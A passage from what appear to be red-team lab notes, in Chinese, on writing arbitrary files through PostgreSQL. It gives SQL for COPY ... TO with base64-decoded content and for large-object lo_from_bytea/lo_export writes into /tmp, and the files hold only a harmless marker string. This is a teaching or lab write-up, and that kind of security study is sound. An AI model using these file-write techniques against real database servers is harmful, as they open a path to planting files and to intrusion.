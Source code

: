 ![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/PostgreSQL/2.png)

也可以 base64 一下
```sql
COPY (select convert_from(decode('ZmZmZmZmZmYweA==','base64'),'utf-8')) to '/tmp/success.txt';
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/PostgreSQL/16.png)

![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/PostgreSQL/17.png)

**方法2 lo_export**

lo_export 采用大对象 OID 和路径，将文件写入路径。

```sql
select lo_from_bytea(12349,'ffffffff0x');
SELECT lo_export(12349, '/tmp/ffffffff0x.txt');

-- base64 的形式
select lo_from_bytea(12350,decode('ZmZmZmZmZmYweA==','base64'));
SELECT lo_export(12350, '/tmp/ffffffff0x.txt');
```
